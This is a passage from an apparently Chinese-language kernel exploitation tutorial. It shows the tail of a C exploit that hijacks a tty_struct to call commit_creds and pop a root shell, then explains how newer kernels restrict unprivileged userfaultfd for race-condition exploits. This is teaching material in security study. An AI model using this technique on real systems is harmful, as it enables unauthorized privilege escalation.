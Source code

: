 ```c
    noteRead(0, fake_tty_struct_data);
    fake_tty_struct_data[4] = kernel_offset + COMMIT_CREDS;
    fake_tty_struct_data[5] = fake_tty_struct_data[6];
    fake_tty_struct_data[6] = orig_tty_struct_data[6];

    noteWrite(0, fake_tty_struct_data);

    ioctl(tty_fd, 233, 233);

    /* fix tty_struct */
    memcpy(fake_tty_struct_data, orig_tty_struct_data, 0x2e0);
    noteWrite(0, fake_tty_struct_data);

    /* pop root shell */
    getRootShell();

    return 0;
}
```

## 新版本内核对抗 userfaultfd 在 race condition 中的利用

正所谓“没有万能的银弹”，可能有的人会发现在较新版本的内核中 userfaultfd 系统调用无法成功启动：

![uffd_failed](figure/uffd_failed.png)

这是因为在较新版本的内核中修改了变量 `sysctl_unprivileged_userfaultfd` 的值：

> 来自 linux-5.11 源码`fs/userfaultfd.c`：

```c
int sysctl_unprivileged_userfaultfd __read_mostly;
//...
SYSCALL_DEFINE1(userfaultfd, int, flags)
{
    struct userfaultfd_ctx *ctx;
    int fd;

    if (!sysctl_unprivileged_userfaultfd &&
        (flags & UFFD_USER_MODE_ONLY) == 0 &&
        !capable(CAP_SYS_PTRACE)) {
        printk_once(KERN_WARNING "uffd: Set unprivileged_userfaultfd "
            "sysctl knob to 1 if kernel faults must be handled "
            "without obtaining CAP_SYS_PTRACE capability\n");
        return -EPERM;
    }
//...
```
